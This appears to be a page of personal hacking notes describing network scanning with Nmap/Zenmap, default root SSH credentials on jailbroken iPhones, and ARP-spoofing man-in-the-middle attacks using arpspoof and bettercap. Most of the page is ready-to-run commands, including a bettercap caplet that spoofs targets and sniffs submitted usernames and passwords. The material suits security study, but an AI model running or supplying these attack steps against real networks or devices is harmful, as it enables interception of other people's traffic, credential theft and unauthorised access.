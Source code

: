##### Nmap

> Zenmap is the graphical user interface of Nmap use <zenmap>

1. in the target  use your network with xx at the end eg. 10.0.2.1/24 (see above [NetDiscover](#netdiscover))
2. in the profiles there are a number of default commands to use. (ping scan might not list everything)
3. use info found to work out things eg. does this model router have any exploits or the phone brand is samsung meaning it's running on android
4. Quick Scan(profile) - also shows open ports and the services running on these ports eg. if port 80 is open a webserver is running.
5. Quick scan plus - Quick scan but also shows Operating system, device type and the programs and program versions running on the ports.

![Nmap]({static img/nmap.png})

> Fun Note: when you jailbrake an iOS device it auto installs an ssh server with default password being: alpine, and uname: root, use `ssh root@[phone/server_ip]` then enter yes and alpine

#### ARP Attack

Address Resolution Protocol (ARP) allows us to link ip addresses to MAC addresses.

- ARP request sends a signal to all clients on the network asking who has this XXX IP the IP will respond with it's MAC address
- goal is to trick the router into thinking you are the victim and the victim into thinking you are the router. (Man in the Middle)
- Use program ARPspoof `arpspoof -i [interface(wificard)] -t [clientip] [gatewayip]` and then `arpspoof -i [interface(wificard)] -t [gatewayip] [clientip]`
    - There is also a tool called bettercap (more features).
    - ARPspoof is not default installed use `apt-get update && apt-get install -y dsniff`
- Packets will be blocked by default on linux to allow packets to flow though on linux use `echo 1 > /proc/sys/net/ipv4/ip_forward` (echo 0 to revert)

##### BetterCap

- use `bettercap -iface [interface]` (interface must be connected to the network you wish to attack)
    - use help to get info of modules running or help [module for more]
- `net.probe on` gets all clients
- `net.show` shows all clients
- To do Man in the middle in Bettercap use `help arp.spoof` you need to modify some of the options, to do this use `set [option_name] [value]` (set full.duplux on and set targets in .targets)
- once settings have been set up turn it on `arp.spoof on`
- To capture data that is being spoofed and analyse it use the net.sniff module `net.sniff on` , you will see entered usernames and passwords under POST
- Instead of doing the above you can use a caplet, to capture data for you
    1. open a text file and type each command
        - `net.probe on`
        - `set arp.spoof.fullduplex true`
        - `set arp.spoof.targets [target_ips]` (will need to change IP in script each time you use, to target multiple IPs use the comma [,] after each IP)
        - `arp.spoof on`
        - `net.sniff on`
    2. Save the file with .cap
    3. From Bash use `bettercap -iface [interface] -caplet [filename]`
